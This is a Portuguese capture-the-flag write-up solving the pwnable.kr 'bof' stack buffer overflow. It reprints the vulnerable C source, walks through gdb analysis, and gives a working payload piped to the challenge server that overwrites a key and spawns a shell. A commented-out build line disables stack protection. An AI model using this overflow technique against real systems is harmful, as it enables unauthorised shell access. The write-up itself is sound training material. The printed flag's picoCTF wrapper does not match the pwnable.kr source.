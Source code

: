 # bof
###### Resolvido por @Menegaldo
> Este é um CTF sobre [Buffer Overflow]  

## Sobre o Desafio  

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Running at : nc pwnable.kr 9000

## 🔗 Links do Desafio

- [Exercício](https://pwnable.kr/play.php)
- [Download](http://pwnable.kr/bin/bof)  
- [Download](http://pwnable.kr/bin/bof.c)  

## Solução

O primeiro passo para executar esse desafio é baixar tanto o executável `bof` quanto o código-fonte `.c`. Com isso, é possível analisar o código em C para compreender seu funcionamento e direcionar os esforços corretamente.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

Após a análise do código, observa-se que o objetivo é alcançar a linha `system("/bin/sh")`, permitindo o acesso a uma interface onde possivelmente estará a flag. Para atingir esse ponto, a variável `key` deve conter o valor `0xcafebabe`. Como a função `gets` é vulnerável a buffer overflow, pode-se explorar essa vulnerabilidade para sobrescrever a memória. No entanto, antes de qualquer ação, é necessário mapear a stack para inserir as informações no local correto.

O primeiro passo é conceder permissão de execução ao `bof` com o seguinte comando:

```
chmod +x bof
```

Em seguida, executa-se o programa:

```
./bof
```

Para analisar a estrutura da memória, utiliza-se a ferramenta `gdb` com o comando:

![image](https://github.com/user-attachments/assets/5b512de4-7913-422a-b98c-7cd8de8763f8)

Para verificar se a vulnerabilidade de buffer overflow de fato existe, pode-se inserir uma entrada maior que os 32 bytes da variável `overflowme`, somados aos 8 bytes do base pointer. Dessa forma, é possível atingir alguma área específica da memória e observar eventuais erros.

![image](https://github.com/user-attachments/assets/65f5b85a-fead-47d0-86ec-a960541f9e53)

O software GDB acusou um erro denominado `stack smashing detected`, indicando que a stack foi corrompida. Essa informação confirma que o código é vulnerável a buffer overflow. A partir desse ponto, a análise pode prosseguir para localizar as informações que precisam ser manipuladas na memória.

Utiliza-se o comando `(gdb) disas <função_analisada>` para analisar as funções `main` e `func`:

![image](https://github.com/user-attachments/assets/825153ba-a22c-4098-80a4-32a08527067d)

Na `main`, observa-se que o valor `0xdeadbeef` é passado para a função `func` no momento da chamada.

![image](https://github.com/user-attachments/assets/56d511d8-946a-4f09-a892-322d0b9b83e1)

Já na `func`, identifica-se o valor `0xcafebabe`, que precisa ser inserido na variável key para acessar `system("/bin/sh")`. Com essas informações em mãos, o próximo passo é interromper a execução quando a função `gets` for chamada, utilizando o comando `break gets`.
Após definir o breakpoint, executa-se o código com `run`. O programa aguardará a entrada do usuário ao alcançar `gets`. Ao inserir `next` e prosseguir com um valor, é possível identificar o endereço de memória onde a execução continua.

![image](https://github.com/user-attachments/assets/1ae2097a-81c9-464a-b5cc-b145bc0da2f6)

Em seguida, confirma-se a localização dos dados em `ebp+8` e `ebp-0x2c`, onde a entrada do usuário foi armazenada.

![image](https://github.com/user-attachments/assets/7c85f508-dec2-4a84-8b9b-7652f7c3a3ed)

Com esses valores, calcula-se a distância entre eles para determinar quantos bytes precisam ser escritos até atingir a variável `key` e realizar a comparação desejada.

![image](https://github.com/user-attachments/assets/1f67f213-4ef6-46db-8cbf-85da81d03e7a)

Agora, com todas as informações necessárias, basta executar o comando que insere 52 bytes de padding (`NOPs`) seguidos pelo valor `0xcafebabe` na variável `key`, garantindo o acesso à `system("/bin/sh")`.

```(python -c "print '\x90'*52 + '\xbe\xba\xfe\xca'"; cat) | nc pwnable.kr 9000```

Por fim, executa-se o comando para capturar a flag (`****`):

```
cat flag
```
> Assim, obtemos a flag `picoCTF{daddy, I just pwned a buFFer :)}`


<!--

TIRAR CANARY
```
gcc -fno-stack-protector -z execstack -no-pie -o bof bof.c
```

![image](https://github.com/user-attachments/assets/50d458d7-5525-4248-b460-442361f6351f)

![image](https://github.com/user-attachments/assets/c18595e5-ba5a-4f99-9f7b-21f4e246069d)

![image](https://github.com/user-attachments/assets/cdf1fbca-ef25-49ba-bb03-881f63d7157a)
 
 -->



